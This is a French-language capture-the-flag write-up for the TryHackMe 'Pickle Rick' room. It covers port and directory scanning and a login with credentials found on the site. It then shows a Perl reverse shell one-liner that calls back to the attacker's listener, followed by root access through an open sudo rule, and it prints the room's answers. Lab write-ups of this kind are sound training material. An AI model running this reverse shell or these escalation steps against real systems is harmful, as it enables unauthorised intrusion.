 # Pickel Rickle #

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.219.41 picklerick.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A picklerick.thm
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-22 08:54 CEST
Nmap scan report for picklerick.thm (10.10.219.41)
Host is up (0.033s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f1:45:81:8b:01:89:af:0b:f5:b5:b1:7e:eb:a9:77:35 (RSA)
|   256 fd:6d:4e:3f:c7:88:f5:9d:ff:35:ae:82:ae:33:cc:19 (ECDSA)
|_  256 a4:e7:6a:e4:e1:38:2a:bf:2b:d2:55:7a:44:90:64:1e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=7/22%OT=22%CT=1%CU=41737%PV=Y%DS=2%DC=T%G=Y%TM=60F9165
OS:0%P=x86_64-pc-linux-gnu)SEQ(SP=F4%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)SEQ(
OS:SP=F4%GCD=1%ISR=10D%TI=Z%CI=I%TS=8)OPS(O1=M506ST11NW7%O2=M506ST11NW7%O3=
OS:M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11NW7%O6=M506ST11)WIN(W1=68DF%W2=68
OS:DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M506NNSNW7
OS:%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=
OS:Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%
OS:RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0
OS:%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIP
OS:CK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   32.64 ms 10.9.0.1
2   32.40 ms picklerick.thm (10.10.219.41)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.21 seconds
```

On voit avec le résultat nmap qui y a deux services :   
Le servie ssh sur le port 22  
Le servie http sur le port 80   

![page1](./task1-01.png)

Sur la page principale one voit pas grand chose.   

![page2](./task1-02.png)

Par contre dans le code source de la page dans les commentaires on trouve un non d'utilisateur.  
non d'utilisateur : R1ckRul3s   

```bash
im@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://picklerick.thm -w /usr/share/dirb/wordlists/common.txt -x html,php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://picklerick.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,php
[+] Timeout:                 10s
===============================================================
2021/07/22 09:22:29 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 293]
/.hta.html            (Status: 403) [Size: 298]
/.hta.php             (Status: 403) [Size: 297]
/.htaccess            (Status: 403) [Size: 298]
/.htpasswd            (Status: 403) [Size: 298]
/.htaccess.html       (Status: 403) [Size: 303]
/.htpasswd.php        (Status: 403) [Size: 302]
/.htaccess.php        (Status: 403) [Size: 302]
/.htpasswd.html       (Status: 403) [Size: 303]
/assets               (Status: 301) [Size: 317] [--> http://picklerick.thm/assets/]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]                     
/index.html           (Status: 200) [Size: 1062]                                   
/index.html           (Status: 200) [Size: 1062]                                   
/login.php            (Status: 200) [Size: 882]                                    
/portal.php           (Status: 302) [Size: 0] [--> /login.php]                     
/robots.txt           (Status: 200) [Size: 17]                                     
/server-status        (Status: 403) [Size: 302]                                    
                                                                                   
===============================================================
2021/07/22 09:23:18 Finished
===============================================================
```  

On remarque plusieurs liens disponibles interréssants :   
\/robots.txt  
\/assets   
\/login.php

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://picklerick.thm/robots.txt
Wubbalubbadubdub
```

Cette pourra nous servir plus tard.

![page3](./task1-03.png)

Ici je n'ai rien trouvé.   

![login](./task1-04.png)

Nous avons une page essayons de mettre :  
Username : R1ckRul3s   
Password : Wubbalubbadubdub 

![Command](./task1-05.png)
On utiliser des commandes pour voire les fichiers dans le serveur, mais il y a certaine commandes qui sont filtrés.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

Nous allons essayer de trouver un reverse shell qui fonctionne.   
Écoutons sur le port 1234 pour établir une connexion avec le reverse shell.   

```bash
perl -e 'use Socket;$i="10.9.228.66";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Après plusieurs tentatives  je trouve reverse shell qui fonctionne.   

**What is the first ingredient Rick needs?**

```bash
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@ip-10-10-219-41:/var/www/html$ 

www-data@ip-10-10-219-41:/var/www/html$ ls    	
ls
Sup3rS3cretPickl3Ingred.txt  clue.txt	 index.html  portal.php
assets			     denied.php  login.php   robots.txt

www-data@ip-10-10-219-41:/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt
cat Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```

On trouve le premier ingrédient.   
Réponse : mr. meeseek hair  

**Whats the second ingredient Rick needs?**

```bash
www-data@ip-10-10-219-41:/var/www/html$ cat clue.txt
cat clue.txt
Look around the file system for the other ingredient.

www-data@ip-10-10-219-41:/var/www/html$ cd /home/
www-data@ip-10-10-219-41:/home$ ls
ls
rick  ubuntu
www-data@ip-10-10-219-41:/home$ cd rick
cd rick
www-data@ip-10-10-219-41:/home/rick$ ls
ls
second ingredients
www-data@ip-10-10-219-41:/home/rick$ cat "second ingredients"
cat "second ingredients"
1 jerry tear
```

Dans le fichier clue.txt on dit de chercher ailleurs pour le trouver le deuxième ingredient.  
On trouve le fichier et on regarde à l'intérieur.  
La réponse est : 1 jerry tear  

**Whats the final ingredient Rick needs?**

```bash
www-data@ip-10-10-219-41:/home$ sudo -l
sudo -l
Matching Defaults entries for www-data on
    ip-10-10-219-41.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-219-41.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

D'après la configuration on peut exécuter sudo sans mot de passe.  

```bash
www-data@ip-10-10-219-41:/home$ sudo su
sudo su

root@ip-10-10-219-41:/home# cd /root/
cd /root/
root@ip-10-10-219-41:~# ls
ls
3rd.txt  snap

root@ip-10-10-219-41:~# cat 3rd.txt
cat 3rd.txt
3rd ingredients: fleeb juice
```

On a notre troisième ingredient.   
Réponse : fleeb juice  
